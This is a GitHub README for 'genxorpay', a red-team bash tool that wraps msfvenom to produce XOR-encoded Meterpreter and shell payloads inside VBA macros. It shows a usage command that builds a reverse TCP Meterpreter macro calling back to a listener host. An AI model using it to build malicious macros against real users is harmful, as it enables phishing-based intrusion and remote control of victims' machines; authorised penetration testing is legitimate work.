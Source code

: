# genxorpay
(Generate XOR Payload) is a command-line tool built to simplify the creation of XOR-encoded shellcode using msfvenom, optimized for VBA macro delivery in offensive security engagements and red team operations. 

![Platform](https://img.shields.io/badge/platform-linux%20%7C%20macOS-brightgreen?style=flat-square)
![Language](https://img.shields.io/badge/language-bash-blue?style=flat-square)

---
### 🔥 Features
- ✅ Supports a wide range of **Meterpreter** and **Shell** payloads
- ✅ Auto-generates **VBA macro stubs** with XOR-decoded shellcode
- ✅ Saves raw `msfvenom` output and encoded buffers for analysis or reuse
- ✅ Optional **interactive clipboard mode** to quickly copy payloads, shellcode, or listener setup
- ✅ Automatically detects payload types and adjusts output (e.g., `.exe` for unsupported VBA payloads)
- ✅ Fully compatible with **Windows**, **Linux**, **macOS**, and **Android** payloads
- ✅ Debug log generation for reproducibility and audits

---
### 🔌 Clone the Repository

```bash
git clone https://github.com/yourname/genxorpay.git
cd genxorpay
chmod +x genxorpay.sh
```

---
### 📦 Example Use

```bash
./genxorpay.sh -p 3 -lhost 192.168.1.100 -lport 4444 -o macro.vba -raw raw.vba -i
```

This will:
- Generate a **reverse TCP Meterpreter** payload
- XOR-encode the shellcode
- Write a macro to `macro.vba`
- Save the raw shellcode to `raw.vba`
- Enter interactive mode for copying payload elements to clipboard

----
### 🎯 Intended Use

`genxorpay` is designed for:
- **Red team operations**
- **Penetration testing**
- **Macro payload development**
- **Payload encoding research**

> ⚠️ **Ethical Use Only:** This tool is intended for use in environments where you have explicit permission. Unauthorized use is illegal and unethical.

# TODO

### 🤝 Contributions
Contributions, ideas, and pull requests are welcome. Please file an issue if you discover a bug or want to propose a feature.

## 📎 Author

Made with ❤️ for security professionals by [Ninjarku](https://github.com/Ninjarku)
